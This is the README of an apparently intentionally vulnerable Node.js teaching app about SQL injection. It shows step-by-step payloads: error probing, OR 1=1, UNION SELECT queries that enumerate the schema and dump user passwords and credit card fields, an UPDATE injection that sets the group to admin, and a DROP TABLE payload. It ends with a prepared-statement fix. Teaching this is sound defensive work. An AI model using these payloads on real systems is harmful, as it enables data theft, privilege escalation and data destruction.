 # Learning SQL Injection

## Description

This intentional bad written node.js app demonstrate how SQL injections can
happen and how they could be abused.

## WARNING - DISCLAIMER

THIS APP IS VULNERABLE AGAINST SQL INJECTION, ONLY EXECUTE THE APP FOR LEARNING
PURPOSES AND ONLY WITHIN A TRUSTED ENVIRONMENT AND ONLY WITH A DATABASE USER
WITH LIMITED ACCESS.

TO REDUCE THE RISK THE APP ONLY LISTENS TO CONNECTIONS FROM LOCALHOST.

USE THE APP AT YOUR OWN RISK!

## Setup

To prepare this demo you need to do the following:
 - execute `npm install` (this will install mysql and express)
 - import `example-database.sql` into an empty MySQL database
 - change `db.js` and enter you database config

To run the demo:
 - execute `npm start`
 - open http://localhost:3000

## The bad code

The /hw endpoint in the app.js builds the SQL query by simply concatenating
the query template (`SELECT ... LIKE '%`) with the user's input for filtering
the result (`req.query.name`) and the end part of the SQL query (`%'`).

## What the developer wanted

The SQL query which is sent to the database server should look like:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%hammer%'
```

## Inject

The attacker wants to inject his own code.

He finds the vulnerability by searching for `Ham'mer`. The server returns an error.
And this is the good signal for the attacker.

The attacker doesn't know the SQL query, but it was:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%Ham'mer%'
```

As you can see this is not a valid SQL query, hence the error.

Next step would be to make the SQL query valid again:
The attacker searches for `something' OR 1=1 -- comment` and the query becomes:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%something' OR 1=1 -- comment%'
```

This will show all products even if they not have `something` in the name.

The `-- comment` part ensures, that everything after the double hyphen is ignored
because it's a SQL comment.

## Be Creative

### Select other stuff

With the `UNION` keyword you can combine two queries into one result set.

Searching for `' UNION SELECT 'a' -- comment` will throw an error.
The attacker does not know the exact error, but he assumes it is the follwing:

`The used SELECT statements have a different number of columns`

To get the `UNION` keyword working the second SQL query (the attacker's one) must have
exactly the same number of columns as the internal one (which he doesn't know).

After trying a query with two columns (error) the following injection
returns the products again:

Search term: `' UNION SELECT 'a', 'b', 'c' -- comment`

Resulting query:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%' UNION SELECT 'a', 'b', 'c' -- comment%'
```

This will show the product `a, b, c` in the result.

### Examples

`xyz' UNION SELECT 'a', 'b', 'c' -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 'c' FROM information_schema.TABLES -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'sql_learning_injection' -- comment`

```xyz' UNION SELECT name, mail, `group` FROM user -- comment```

```xyz' UNION SELECT id, name, CONCAT_WS('<br/>', id, name, password, clear_pw, credit_card, mail, `group`) FROM user -- comment```

### Further ideas (not part of this learning)

#### When updating own user details inject sql to set group to admin

Bad query
`UPDATE user SET mail = '" + req.query.mail + "' WHERE id = " + user_id`

with user input
```my.mail@example.com ', `group` = 'admin```

becomes
```UPDATE user SET mail = 'my.mail@example.com ', `group` = 'admin' WHERE id = 42```

#### Execute multiple queries

Bad query
`SELECT name, stock, price FROM product WHERE name LIKE '%" + req.query.name + "%'`

with user input
`'; DROP TABLE USER -- --`

becomes
`SELECT name, stock, price FROM product WHERE name LIKE '%'; DROP TABLE USER -- --%'`

As you can see, there is a second statement appended (`DROP TABLE USER`) which
deletes the complete user table.


## The good code ... or: How to avoid them

Don't use user input directly.

Either escape the user input properly or better use prepared statements and bind the user input to parameters.

## Example

```
app.get('/hw', function (req, res) {
    const query = "SELECT name, stock, price FROM product WHERE name LIKE ?";
    const param = ['%' + req.query.name + '%'];
    conn.query(query, param, (err, rows) => {
       if (err) {
           res.status(500).send(err.toString());
       } else {
           res.status(200).json(rows);
       }
    });
});
```

Small code change, huge outcome!

Do it! Do it everywhere!
